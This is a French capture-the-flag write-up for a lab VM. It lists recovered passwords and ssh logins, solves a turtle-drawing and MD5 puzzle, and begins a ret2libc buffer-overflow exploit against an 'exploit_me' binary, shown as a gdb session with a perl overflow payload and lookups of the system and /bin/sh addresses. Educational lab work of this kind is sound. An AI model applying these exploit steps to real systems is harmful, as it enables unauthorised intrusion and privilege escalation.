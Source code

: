 Sur le slack, il est dit qu'il faut inverser 2 caracteres, donc en bruteforcant un peu on obtient le vrai mot de passe :

```bash
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

on peut donc se connecter

```bash
ssh thor@192.168.0.30 -p 22
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

## Thor

Une fois connecté, le README demande juste de résoudre l'exo et de s'en servir comme mdp pour zaz
Quand on cat on obtient un long texte avec à la fin "Can you digest the message? :)"

On comprends que c'est un algo de dessin et en tapant des bouts de code sur Google on trouve le "turtle" qui est, comme par hasard, le nom du fichier.

Samy nous a donc fait un super algo pour nous l'afficher ! (cf turtle_Samy.py)

On obtient SLASH

Le mot de passe ne passe pas pour zaz, on cherche donc digest message sur Google et on tombe sur... MD5 !

On fait donc le md5 de SLASH et on obtient : 646da671ca01bb5d84dbb5fb2238dc8e

## Zaz

On se connecte :

```bash
ssh zaz@192.168.0.30 -p 22
646da671ca01bb5d84dbb5fb2238dc8e
```

On suit le tutoriel de :
https://beta.hackndo.com/retour-a-la-libc/

```bash
            (gdb) r $(perl -e 'print "A"x140 . "\xef\xbe\xad\xde"')
                Starting program: /home/zaz/exploit_me $(perl -e 'print "A"x200 . "\xef\xbe\xad\xde"')
                perl: warning: Setting locale failed.
                perl: warning: Please check that your locale settings:
                    LANGUAGE = (unset),
                    LC_ALL = (unset),
                    LC_TERMINAL_VERSION = "3.3.12",
                    LC_CTYPE = "fr_FR.UTF-8",
                    LC_TERMINAL = "iTerm2",
                    LANG = "en_US.UTF-8"
                    are supported and installed on your system.
                perl: warning: Falling back to the standard locale ("C").
                AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAﾭ�

                Program received signal SIGSEGV, Segmentation fault.
                0x41414141 in ?? ()
            (gdb) p system
                $1 = {<text variable, no debug info>} 0xb7e6b060 <system>

            (gdb) find __libc_start_main,+99999999,"/bin/sh"
                0xb7f8cc58
                warning: Unable to access target memory at 0xb7fd3160, halting search.
```